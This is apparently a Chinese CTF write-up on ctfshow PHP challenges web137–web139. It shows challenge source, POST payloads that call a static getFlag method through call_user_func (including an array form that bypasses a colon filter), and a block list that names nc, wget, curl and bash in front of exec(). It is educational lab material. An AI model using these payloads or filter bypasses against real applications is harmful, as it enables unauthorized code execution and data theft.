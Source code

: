 很简单，直接调用ctfshow类里的getFlag方法

```
POST:ctfshow=ctfshow::getFlag
```

借用yu22x师傅的拓展

> php中 ->与:: 调用类中的成员的区别
> ->用于动态语境处理某个类的某个实例
> ::可以调用一个静态的、不依赖于其他初始化的类方法.
>
> **也就是说双冒号可以不用实例化类就可以直接调用类中的方法**



### web138

```
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```

相比于上一题，这个题过滤了冒号

call_user_func中不但可以传字符串也可以传数组

本地测试

```
call_user_func(array($classname, 'say_hello'));
这时候会调用 classname中的 say_hello方法
```

**payload**

```
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```



### web139

```
 <?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
```